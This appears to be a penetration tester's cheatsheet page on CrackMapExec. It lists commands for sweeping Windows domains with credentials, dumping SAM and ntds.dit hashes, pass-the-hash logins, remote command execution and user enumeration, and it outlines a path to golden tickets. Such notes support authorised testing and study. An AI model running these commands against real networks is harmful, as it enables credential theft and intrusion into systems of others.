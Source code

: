 ```yaml
---
title: CrackMapExec
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
  - dump hashes
  - passwords
---
```



# CrackMapExec

Once we have access to a domain, CrackMapExec (CME) will allow us to sweep the network and see which users and machines we can access to.

CME allows us to authenticate ourselves with the following protocols:

- smb
- ssh
- mssql
- ldap
- winrm

The most used protocol is smb as port 445 is commonly open.

## Installation

```bash
sudo apt-get -y install crackmapexec
```


## Basic usage

Main syntax

```bash
crackmapexec <protocol> <target-IP> -u <user or userlist> -p <password or passwordlist>
```

```bash
# Check if we can access a machine
crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN>

# Check which machines we can access in a subnet
crackmapexec smb $ip/24 -u <username> -p <password> -d <DOMAIN>

# Get sam: all users authenticated in the machine and their hashes
crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN> --sam

# Get the ntds.dit, given that your user has permissions
crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN> --ntds

# See shares
crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN> --shares

# Enumerate active sessions
crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN> --sessions

# Enumerate users of the domain
crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN> --users

# Enumerate logged on users
crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN> --loggedon-users

# Using a hash instead of a password, to authenticate ourselves
crackmapexec smb $ip -u <username> -H <hash> -d <DOMAIN>

# Execute commands with flag -x
crackmapexec smb $ip/24 -u <Administrator> -d . -H <hash> -x whoami
```

## Basic technique

Once we have access to  a domain:

1. Enumerate users and machines in our machine: we will have all users registered and their hashes. 

2. See if any user is in another machine of the domain. Also check if they have admin access.

3. Goal would be to dump ntds.dit.

With krbtgt and DC$ user you can get a golden ticket. And with DC$ a silver ticket.


## What is a SAM hash like?

Take the Administrator one:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

Basically, it has 4 parts: 

					user : id: LM-authentication : NTLM

For the purpose of using the hash with CrackMapExec, we will user the NTLM part.






